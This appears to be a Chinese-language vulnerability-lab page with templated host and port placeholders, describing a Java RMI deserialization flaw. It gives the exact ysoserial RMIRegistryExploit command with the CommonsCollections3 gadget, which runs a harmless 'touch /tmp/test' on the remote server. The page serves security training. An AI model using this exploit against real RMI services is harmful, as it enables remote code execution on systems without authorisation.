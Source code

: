 ### 漏洞环境
> 本环境在本地开启了一个RMI服务,正常的客户端可以`java -cp RMIDemo.jar com.firestar.demotwo.HelloClient {{ip}} {{port[0]}}`可以调用远程JAVA对象.

> 程序源码在/root/RMIDemo.tar.gz

## 利用条件
> 1.存在反序列化传输

> 2.存在有缺陷的第三方库如commons-collections

## 漏洞复现

下载利用工具

> [ysoserial](http://{{ip}}:{{webport}}/vuln/rmi/ysoserial-0.0.5-SNAPSHOT-all.jar)

利用漏洞在远程服务器上执行 `touch /tmp/test` 命令

> `java -cp ysoserial-0.0.5-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit {{ip}} {{port[0]}} CommonsCollections3 "touch /tmp/test"`

## 参考资料
[java RMI相关反序列化漏洞整合分析](http://wooyun.jozxing.cc/static/drops/papers-13056.html)

